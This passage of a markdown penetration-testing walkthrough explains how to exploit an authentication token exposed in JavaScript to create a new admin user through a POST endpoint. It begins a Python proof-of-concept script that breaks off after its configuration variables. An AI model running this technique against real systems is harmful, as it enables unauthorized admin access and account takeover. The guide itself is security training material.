     echo "[VULN INFO] Endpoint Path: ${VULN_ENDPOINT_PATH}"
    echo "[VULN INFO] Exposed Token: ${EXPOSED_TOKEN}"
    echo "[VULN INFO] Assumed Token Header: ${TOKEN_HEADER_NAME}"
    ```

---

## 5. Phase 3: Proof of Concept - Exploiting the JS Vulnerability

Now, attempt to use the discovered endpoint and token to create a new admin user.

### 5.1. Understanding the Vulnerable Endpoint

*   **Name:** The path `create_new_admin_user_account` strongly suggests its purpose.
*   **Method:** Such actions are typically `POST` requests.
*   **Payload:** It will likely require a body (e.g., JSON) containing `username`, `password`, and possibly `email` or `role` for the new admin.
*   **Authentication:** The `EXPOSED_TOKEN` is presumed to be the authentication mechanism, likely sent in an HTTP header.

### 5.2. Crafting and Sending the Exploit Request

*   **Action:** Use `curl` or a Python script. Python is more flexible for complex payloads and headers.
*   **Code (Python script - save as `poc_admin_create.py`):**
    ```python
    #!/usr/bin/env python3
    # poc_admin_create.py
    # Proof-of-Concept to create an admin user via an exposed JS endpoint/token.
    # !!! FOR EDUCATIONAL USE IN AUTHORIZED LABS ONLY !!!

    import requests
    import json
    import os
    import sys

    # --- Configuration (Ideally load from environment variables set in previous steps) ---
    TARGET_BASE_URL = os.getenv("TARGET_BASE_URL", "http://default-target-if-not-set.com") # Fallback
    VULN_ENDPOINT_PATH = os.getenv("VULN_ENDPOINT_PATH", "/default/api/createAdmin")
    EXPOSED_TOKEN = os.getenv("EXPOSED_TOKEN", "default_dummy_token")
    TOKEN_HEADER_NAME = os.getenv("TOKEN_HEADER_NAME", "X-Auth-Token")
    IS_BEARER_TOKEN = os.getenv("IS_BEARER_TOKEN", "false").lower() == "true"
